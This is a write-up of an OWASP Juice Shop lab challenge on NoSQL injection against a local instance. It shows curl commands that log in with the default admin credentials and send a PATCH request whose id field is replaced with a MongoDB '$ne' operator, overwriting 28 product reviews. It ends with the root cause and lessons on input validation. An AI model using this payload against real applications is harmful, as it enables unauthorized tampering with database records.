




# NoSQL Manipulation

## Challenge Information

| Field             | Details                                          |
| ----------------- | ------------------------------------------------ |
| **Challenge**     | NoSQL Manipulation                               |
| **Category**      | Injection                                        |
| **Difficulty**    | 4                                                |
| **Challenge Key** | `noSqlReviewsChallenge`                          |
| **Target**        | `PATCH /rest/products/reviews`                   |
| **Objective**     | Update multiple product reviews at the same time |

---

## Objective

The objective of this challenge is to exploit a NoSQL injection vulnerability in the product-review update endpoint so that a single request modifies multiple review documents.

The challenge specifically points toward MongoDB-style update operations and query operators.

---

## Reconnaissance / Discovery

### 1. Identify MongoDB update operations

The first step was to search the Juice Shop source code for MongoDB update operations:

```bash
grep -Rni -C 12 -E "ordersCollection\.(update|updateOne|updateMany|findOneAndUpdate)|\.update\(" \
  /var/lib/juice-shop/routes \
  2>/dev/null | head -300
```

This identified several update operations. The relevant endpoint was:

```text
/var/lib/juice-shop/routes/updateProductReviews.ts
```

### 2. Inspect the update endpoint

The relevant source was inspected with:

```bash
sed -n '1,80p' /var/lib/juice-shop/routes/updateProductReviews.ts
```

The vulnerable operation is:

```ts
db.reviewsCollection.update(
  { _id: req.body.id },
  { $set: { message: req.body.message } },
  { multi: true }
)
```

The important findings are:

* `req.body.id` is directly used as the MongoDB `_id` selector.
* The application accepts the selector from user-controlled JSON.
* The update operation uses `{ multi: true }`.
* The challenge is solved when more than one review is modified.

The source explicitly checks:

```ts
challengeUtils.solveIf(
  challenges.noSqlReviewsChallenge,
  () => { return result.modified > 1 }
)
```



---

## Attack Surface

The vulnerable endpoint is:

```text
PATCH /rest/products/reviews
```

It accepts JSON containing an `id` and a replacement review message.

The intended application behavior is effectively:

```json
{
  "id": "<review-id>",
  "message": "<new-message>"
}
```

However, because the server does not enforce that `id` is a scalar review identifier, a MongoDB query operator can be supplied instead.

---

## Understanding the NoSQL Injection

The challenge hint points toward MongoDB query operators.

The `$ne` operator means **not equal**.

The injected value was:

```json
{
  "$ne": -1
}
```

The vulnerable server-side code:

```ts
{ _id: req.body.id }
```

therefore becomes conceptually:

```js
{
  _id: {
    $ne: -1
  }
}
```

Instead of identifying one specific review, this selector can match multiple review documents whose `_id` is not `-1`.

The `{ multi: true }` option then allows the update to affect all matching documents.

---

## Authentication

The endpoint requires an authenticated request for the challenge workflow.

A local Juice Shop administrator session was obtained through:

```bash
curl -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"admin@juice-sh.op","password":"admin123"}'
```

The returned authentication token was stored locally in the shell rather than exposed in the documentation:

```bash
TOKEN=$(curl -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"admin@juice-sh.op","password":"admin123"}' \
  | jq -r '.authentication.token')
```

The token was then supplied through the `Authorization` header.

> **Note:** Authentication tokens should never be committed to the repository or included in public screenshots.

---

## Exploitation

The NoSQL injection was performed against the review-update endpoint:

```bash
curl -s -X PATCH 'http://127.0.0.1:42000/rest/products/reviews' \
  -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $TOKEN" \
  --data '{"id":{"$ne":-1},"message":"NoSQL Injection!"}' \
  | jq
```

The important part of the request is:

```json
{
  "id": {
    "$ne": -1
  },
  "message": "NoSQL Injection!"
}
```



---

## Validation

The successful request returned:

```json
{
  "modified": 28
}
```

The `modified` value demonstrates that the selector matched multiple reviews and that the multi-document update was performed.



The challenge source requires:

```text
result.modified > 1
```

Since:

```text
28 > 1
```

the challenge condition was satisfied.

---

## Challenge Verification

The challenge state was verified through the Juice Shop API:

```bash
curl -s http://127.0.0.1:42000/api/Challenges \
  | jq -r '.data[] | select(.key=="noSqlReviewsChallenge") | "\(.name) | solved=\(.solved)"'
```

Result:

```text
NoSQL Manipulation | solved=true
```



---

## Exploitation Summary

The attack chain was:

```text
Identify MongoDB update operation
        ↓
Find PATCH /rest/products/reviews
        ↓
Identify user-controlled req.body.id
        ↓
Identify MongoDB selector
        ↓
Identify { multi: true }
        ↓
Supply $ne query operator
        ↓
Selector matches multiple reviews
        ↓
28 reviews modified
        ↓
Challenge solved
```

---

## Security Impact

A vulnerable application accepting MongoDB query objects from untrusted input can allow an attacker to manipulate the intended database query.

In this case, the attacker was able to:

* Replace a single review identifier with a MongoDB query operator.
* Cause the selector to match multiple documents.
* Modify multiple reviews through a single request.

In a real application, similar flaws could potentially allow unauthorized modification of multiple records, depending on the affected endpoint and database permissions.

---

## Root Cause

The primary root cause is insufficient validation of the `id` parameter.

The application expects a specific review identifier but directly inserts the supplied value into a MongoDB selector:

```ts
{ _id: req.body.id }
```

Because the application accepts structured JSON, the attacker can provide an object containing a MongoDB query operator instead of a simple identifier.

The use of:

```ts
{ multi: true }
```

amplifies the impact by allowing the update to affect every matching document.

---

## Lessons Learned

* NoSQL injection is not limited to authentication bypasses.
* MongoDB query operators can alter the meaning of application queries.
* JSON input must be validated according to the expected data type.
* A field expected to contain an identifier should not accept arbitrary query objects.
* `multi: true` can significantly increase the impact of an injection vulnerability.
* Source-code review can reveal dangerous database operations before exploitation.
* Challenge success conditions can help confirm whether an attack actually achieved the intended effect.

---

## Conclusion

The NoSQL Manipulation challenge demonstrated how accepting an attacker-controlled MongoDB query object can transform a single-record update into a multi-document modification.

By supplying the `$ne` query operator as the review ID and exploiting the endpoint's `multi: true` behavior, the request modified 28 reviews and satisfied the challenge condition.

The vulnerability demonstrates why applications should strictly validate input types and prevent untrusted data from being interpreted as database query operators.
